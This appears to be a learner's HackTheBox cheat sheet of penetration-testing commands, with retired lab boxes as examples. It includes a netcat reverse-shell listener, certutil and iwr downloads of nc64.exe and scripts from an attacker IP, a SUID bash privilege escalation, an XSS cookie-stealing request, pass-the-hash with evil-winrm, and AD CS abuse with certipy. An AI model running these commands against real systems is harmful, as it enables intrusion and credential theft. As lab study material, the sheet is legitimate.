

# The Bible

HackTheBox list of commands, when to use them, and the box they were used in as examples

**NMAP**

nmap scans (finding open ports)

```jsx
nmap -sC -sV -p- (IP) -Pn
```

```jsx
nmap -p- -sC -sV --min-rate 5000 (IP) -oN nmappc -Pn 
```

shows open servers and ports (use when logged in as user)

```jsx
netstat -tulnp
```

port scanning (first 1024 ports) on windows machine where you aren’t allowed to install nmap

```jsx
1..1024 | % {echo ((New-Object Net.Sockets.TcpClient).Connect("{ip}", $_)) "TCP port $_ is open"} 2>$null
```

**SMB CLIENT**

139 and 445 ports open = smb

```jsx
smbclient -L \\10.129.9.233\\ -N
```

-L is to list of available shares (segregated folders. different mounted folders)

-N is anonymous

```jsx
smbclient //10.129.9.233/Development -N
```

**FFUF**

finding subdomains (used in stocker)

```jsx
ffuf -c -u http://(IP)/ -w SecLists/Discovery/Web-Content/common.txt -H "HOST: FUZZ.domain.htb"
```

finding subdirectories (used in pilgrimage)

```jsx
ffuf -c -u http://domain.htb/FUZZ -w SecLists/Discovery/Web-Content/common.txt
```

finds all .js files in a subdirectory (used in intentions)

```jsx
ffuf -c -u http://(IP)/js/FUZZ -w SecLists/Discovery/Web-Content/big.txt -e .js
```

dumps all contents of .git subdirectory, can be found using ffuf (used in pilgrimage)

```jsx
git-dumper http://domain.htb git
```

**SSH**

normal ssh using user

```jsx
ssh john@domin.htb
```

ssh using private key

```jsx
ssh -i id_rsa sysadmin@10.8.0.1
```

**good soup links**

```jsx
precompiled binaries for ghostpack (certify,rubeus etc)
https://github.com/r3motecontrol/Ghostpack-CompiledBinaries

Hacktricks (bible)
https://book.hacktricks.xyz/welcome/readme

pspy64 (look at running processes on linux)
https://github.com/DominicBreuker/pspy

linpeas/winpeas (does loads of checks)
https://github.com/carlospolop/PEASS-ng

revshell maker
https://www.revshells.com/

gtfobins(useful for priv escs for linux and exploiting stuff we can sudo)
https://gtfobins.github.io/
```

**LISTENING PORTS**

listening port

```jsx
nc -lvnp 9001
```

python http server

```jsx
python3 -m http.server 8080
```

**SPAWN REVERSE SHELL**

can be used when already in user to spawn shell for root

```jsx
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

**CHISEL**

```jsx
./chisel server -p 8001 --reverse
```

```jsx
./chisel.exe client 10.10.14.61:8001 R:1080:socks
```

**SCP**

scp is how u download files through an ssh connection

```jsx
scp developer@webhosting.htb:/opt/registry.jar .
```

**WGET**

can download anything from desktop to whichever user you’re connected as

start a python server on desktop

```jsx
python3 -m http.server 80
```

then can upload application from desktop to user connection

for example pspy64

```jsx
wget http://(IP)/pspy64
```

**CHMOD**

gives permission to run a program

```jsx
chmod +x program.py
```

used to run the program once it has permission to run

```jsx
./program.py
```

gives everyone access/permission to run the program

```jsx
chmod 777 program.py
```

gives user access to read and write but not execute

```jsx
chmod 600 program.py
```

**GREP**

searches string ‘token’ in current directories and all sub-folders

```jsx
grep -r token .
```

**WRITING TO FILE**

this is used to write directly to a file 

can be used instead of nano

exit out of command by pressing ‘enter’ and then typing ‘EOF’

```jsx
cat > network-simulation.yml << EOF
```

**GENERATING KEY**

generates rsa key

```jsx
ssh-keygen
```

**ID/GID**

shows what groups the user is a member of (I think)

```jsx
juno@jupiter:~$ id
uid=1000(juno) gid=1000(juno) groups=1000(juno),1001(science)
juno@jupiter:~$ find / -type d -group science 2>/dev/null
/opt/solar-flares
/opt/solar-flares/logs
/opt/solar-flares/.ipynb_checkpoints
```

sees what user has permission to run as root

```jsx
sudo -l
```

can run commands using ‘sudo’ (eg. sudo /usr/bin/program.yml or sum shit like that)

can usually find stuff in gtfo bins after

https://gtfobins.github.io/

sees open ports and hosts

```jsx
netstat -tulnp
```

sees running processes (need to install first from github)

```jsx
./pspy64
```

[yucky windows guide](https://www.notion.so/yucky-windows-guide-b1f24c0272f6474f8e707e5c9d73fd98?pvs=21)

mount.nfs nolock to prevent file locking on directory created (/tmp/uwu) (used in corporate)

```jsx
sudo mount.nfs 10.8.0.1:/ /tmp/uwu/ -r-o nolock
```

**Flask/Jinja2**

python code is typically inserted by using a special “syntax” to mark that the code is supposed to be executed by python. In the case of Jinja, the syntax is “{{}}”, where anything inside the double curly brackets will be evaluated by python before appearing in the HTML of the webpage

**Evil-Winrm**

ProxyChains redirects TCP connections made through proxies (SOCKS4, SOCKS5, HTTP)

WinRM (Windows Remote Management) enables administrators to run scripts, execute commands and access management information from local or remote machines

Evil WinRm is used for pen testing and allows running commands, uploading files and running powershell scripts

hash used in this is the end part of an administrator hash found on the machine 

```jsx
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3d636ff292d255b1a899123876635a22::
```

```jsx
┌──(kali㉿kali)-[~/Desktop]
└─$ proxychains evil-winrm -i localhost -u Administrator -H "3d636ff292d255b1a899123876635a22"
```

**Change to Socks5 Proxy**

```jsx
sudo nano /etc/proxychains4.conf
```

golang development environment

```jsx
https://go.dev/play/
```

**Webhooks**

(used in RenderQuest)

website to generate unique URL to capture requests from webhooks and edit/create webhook requests for data:

https://webhook.site

Webhook.site is an open-source and free service that generates a unique URL for you to receive webhooks without having to set up and maintain your own infrastructure. Using Webhook. site, you can see what data is being sent and how it is formatted.

**snmpwalk**

[https://oidref.com/1.3.6.1.2.1.25.4.2.1.5](https://oidref.com/1.3.6.1.2.1.25.4.2.1.5)

```jsx
1.3.6.1.2.1.25.1.6.0    System Processes
1.3.6.1.2.1.25.4.2.1.2    Running Programs
1.3.6.1.2.1.25.4.2.1.4    Processes Path
1.3.6.1.2.1.25.2.3.1.4    Storage Units
1.3.6.1.2.1.25.6.3.1.2    Software Name
1.3.6.1.4.1.77.1.2.25    User Accounts
1.3.6.1.2.1.6.13.1.3    TCP Local Ports
1.3.6.1.2.1.25.4.2.1.5  

snmpwalk -c public -v1 -t IP 1.3.6.1.2.1.25.1.6.0
```

**Scapy**

can use for creating packets

can port forward through port 3000 to access shit

```python
from scapy.all import *
get_if_list()
wrpcap("lo-1min.pcap", sniff(iface='lo', timeout=600))
```

**Linux Privilege Escalation with SUID Binaries**

(Used in Headless)

Echos root privileges into .sh file which is called during syscheck (can run syscheck as sudo from user)

```jsx
echo "chmod u+s /bin/bash" > initdb.sh
```

To activate run Sudo -l; /bin/bash -p

**XSS**

[https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting)

[https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/dom-xss](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/dom-xss)

common vulnerable fields:

- User Agent

Used to steal cookies from web host

Input into user agent section of burpsuite request

```jsx

```

To test for vulnerable fields use alert function (URL encrypted) 

```jsx
<script>alert(1)</script>
```

If vulnerable will alert onto server

what the burpsuite request will look like

```jsx
POST /support HTTP/1.1
Host: 10.10.11.8:5000
User-Agent: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 84
Origin: http://10.10.11.8:5000
Connection: close
Referer: http://10.10.11.8:5000/support
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
Upgrade-Insecure-Requests: 1

fname=a&lname=a&email=a%40a.com&phone=a&message=%3Cscript%3Ealert%281%29%3Cscript%3E
```

gets this response from python http server on desktop

```jsx
10.10.11.8 - - [23/Mar/2024 15:49:37] code 404, message File not found
10.10.11.8 - - [23/Mar/2024 15:49:37] "GET /is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 404 -
```

**Base64 encode to echo onto desktop**

use if don’t have upload privileges 

```jsx
base64 -d oneshotbase64.txt > oneshot.py
```

**Hashcat**

-m for mode

check for which mode looks like hash given

[https://hashcat.net/wiki/doku.php?id=example_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)

cracking hash for password starting “susan_nasus_” followed by a random number between 1-1,000,000,000

```jsx
hashcat -m 1400 hash.txt -a 3 susan_nasus_?d?d?d?d?d?d?d?d?d
```

```jsx
crunch 9 9 BCDFGHJKLMNPGRSTVWXYZ AEIOU + + -t HIT@,@@,@ -o cvclist.txt
```

**Overflow**

overflow in GET request by changing hex value of / after metrics



**Ligolo**

set up ligolo
on kali:

```bash
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
```

setup proxy

```bash
./proxy -selfcert -laddr 10.10.14.202:443
```

on victim: change it on windows

```
.\agent.exe -connect 10.10.14.202:443 -ignore-cert
```

start session and add route

```
sudo ip route add 192.168.100.0/24 dev ligolo
```

double pivot

add new listener

```bash
listener_add --addr 0.0.0.0:11601 --to 192.168.45.175:443
```

connect to the middle man on the laddr

```bash
.\agent.exe -ignore-cert -connect 192.168.201.221:11601
```

make a new tunnel like u have to at the start but name ligolo2 instead

start on new tunnel

```bash
session
2
start --tun ligolo2
```

add route to ligolo2

```bash
sudo ip route add 10.20.120.0/24 dev ligolo2
```

**create powershell on windows**

```python
powershell -ep bypass
```

**upload alternatives for windows**

```python
iwr -uri http://10.10.14.202/ew.ps1 -Outfile ew.ps1
```

```python
certutil.exe -urlcache -f http://10.10.14.61/nc64.exe nc64.exe
```

**Certipy-AD**

[https://github.com/ly4k/Certipy](https://github.com/ly4k/Certipy)

for enumerating and abusing Active Directory Certificate Services (AD CS)

**examples from EscapeTwo**

use certipy to abuse shadow account, connect to domain controller using ip

```jsx
certipy-ad shadow auto -u ryan@sequel.htb -p 'WqSZAF6CysDQbGb3' -dc-ip 10.10.11.51 -ns 10.10.11.51 -target dc01.sequel.htb -account ca_svc
```

search for vulns in target using kerberos authentication

```jsx
KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad find -scheme ldap -k -debug -target dc01.sequel.htb -dc-ip 10.10.11.51 -vulnerable -stdout
```

create certificate request using DunderMifflinAuthentication template (shown in results from pervious command)

```jsx
KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad template -k -template DunderMifflinAuthentication -target dc01.sequel.htb -dc-ip 10.10.11.51
```

create certificate request using hash + template

```markdown
certipy-ad req -u ca_svc -hashes '3b181b914e7a9d5508ea1e20bc2b7fce' -ca sequel-DC01-CA -target sequel.htb -dc-ip 10.10.11.51 -template DunderMifflinAuthentication -upn administrator@sequel.htb -ns 10.10.11.51 -dns 10.10.11.51 -debug
```

authenticate user using pfx file retrieved from result of previous command

```markdown
certipy-ad auth -pfx ./administrator_10.pfx -dc-ip 10.10.11.51
```

gets hash for administrator that can be used for evil-winrm auth

**BloodyAD**

Can perform specific LDAP calls to a domain controller in order to perform AD privesc.

[https://github.com/CravateRouge/bloodyAD](https://github.com/CravateRouge/bloodyAD)

**Example from EscapeTwo:**

change owner of ca_svc object to user ryan

```jsx
./bloodyAD --host dc01.sequel.htb -d sequel.htb -u ryan -p WqSZAF6CysDQbGb3 set owner ca_svc ryan

```